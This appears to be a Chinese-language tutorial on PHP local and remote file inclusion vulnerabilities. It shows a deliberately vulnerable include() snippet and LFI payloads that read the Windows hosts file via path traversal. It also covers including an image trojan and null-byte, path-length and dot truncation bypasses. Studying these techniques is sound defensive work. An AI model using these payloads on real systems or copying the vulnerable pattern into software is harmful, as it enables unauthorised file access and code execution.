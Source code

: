 ------

#### 分类

- 主要包括`本地文件包含(LFI)`和`远程文件包含(RFI)`

- 简单来说,本地文件包含可以`读取`和`打开本地文件`,远程文件包含(http,ftp,php伪协议)就是可以`远程加载文件`

- `包含条件`:allow_url_fopen=On(php.ini中进行配置,该选项默认为on)->`本地文件包含不受影响`&&用户可以`动态控制变量`

- ```php
  //无限制本地文件包含漏洞经典代码
  <?php
  $filename=$_GET['filename'];
  include($filename);
  ?>
  ```

------

#### 本地文件包含(LFI)

- `绝对路径`读取本地host文件-->`?action=C:/Windows/System32/drivers/etc/hosts`

- `相对路径`读取本地host文件-->`?action=..//..//..///..//..//..//..//..//windows/system32/drivers/etc/hosts`

- 包含图片木马:`?action=./test.jpg`

- `有限制`本地文件包含漏洞`绕过`

- ```php
  <?php
  $filename=$_GET['filename'];
  include($filename.".php");
  ?>
      
  //绕过方法
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```

------
